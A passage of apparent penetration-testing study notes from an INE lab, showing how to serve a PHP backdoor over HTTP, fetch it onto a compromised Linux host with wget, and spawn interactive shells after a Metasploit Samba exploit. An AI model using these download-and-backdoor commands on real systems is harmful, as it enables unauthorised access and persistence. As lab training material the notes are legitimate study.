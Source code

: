 #### Linux

* After exploiting the Linux target, transfer the `php-backdoor.php` file to the target.
* 2 terminal sessions are necessary - use `tmux` utility to get more sessions.

[**`tmux`**](https://github.com/tmux/tmux/wiki) - _is a program, **terminal multiplexer**, which runs in a terminal and allows multiple other terminal programs to be run inside it_

```bash
sudo apt install tmux -y
```

```bash
# Attacker machine
tmux
# ... Exploitation with MSFconsole in Terminal 0 ...
# CTRL+B and then C to open a new terminal session

cd /usr/share/webshells/php/
ip -br -c a
	192.219.50.2
python3 -m http.server 80
```

```bash
# CTRL+B then 0 (zero) to navigate to the first Terminal session
# Target machine
/bin/bash -i
wget http://192.219.50.2/php-backdoor.php
```

![wget http://\<ATTACKER\_IP>/php-backdoor.php](.gitbook/assets/image-20230428232055646.png)

## Interactive Shells

> 🔬 Interactive shells techniques are covered in an INE vulnerable Lab. Commands are below, assuming the target SAMBA service is already exploited through the `exploit/linux/samba/is_known_pipename` MSF module.

* After the exploitation (using `MSFconsole`, `netcat`, etc), a **non-interactive shell** is obtained since it doesn't provide with a prompt
  * This is a command shell session

![Non-interactive Shell](.gitbook/assets/image-20230428234859491.png)

* Display the list of **shells** on the target system

```bash
cat /etc/shells
    # /etc/shells: valid login shells
    /bin/sh
    /bin/dash
    /bin/bash
    /bin/rbash

/bin/bash -i

/bin/sh -i
```
